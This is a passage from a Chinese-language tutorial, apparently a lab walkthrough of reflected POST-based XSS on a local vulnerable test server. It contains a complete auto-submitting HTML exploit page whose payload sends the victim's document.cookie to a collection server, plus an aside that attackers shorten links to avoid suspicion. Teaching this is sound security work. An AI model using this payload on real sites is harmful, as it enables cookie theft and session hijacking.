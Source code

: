 一般情况下，黑客使用的都是经过缩短的短链接，因为过长的 url 可能会引起用户的戒心。

***
#### Post 获取 Cookie

> 分析

post.html 里面存放了使用 post 方法获取用户 cookie 的代码，第一个地址要修改为漏洞服务器上的地址，url 指向注入点，第二个地址是用来传递 cookie 的，因此要修改为我们用来接收 cookie 的服务器的地址。

```html
<html>
<head>
<script>
	// 页面一打开就提交表单，跳转页面
	window.onload = function() {
	  document.getElementById("postsubmit").click();
	}
</script>
</head>
<body>
	<form method="post" action="http://192.168.127.200:9000/vul/xss/xsspost/xss_reflected_post.php">
    
    <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://192.168.127.200:9000/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>"/>
    <input id="postsubmit" type="submit" name="submit" value="submit" />
</form>
</body>
</html>
```

这个漏洞利用代码是为 反射性xss(post) 量身定做的，让我们看一下打开 post.html 之后，他会做什么

![](../../image/Pasted%20image%2020230426030223.png)

1. 页面一打开就会以 post 方法提交表单
2. 如果用户没有登录，那么这个请求会因为权限问题被拒绝访问，跳转回登录页面
	1. 所以这份代码对于未登录的用户是无效的
3. post 请求的参数 message 的值是一段 js 代码，这段代码的作用是将页面重定向到上文的 cookie.php，并将 cookie 传递过去
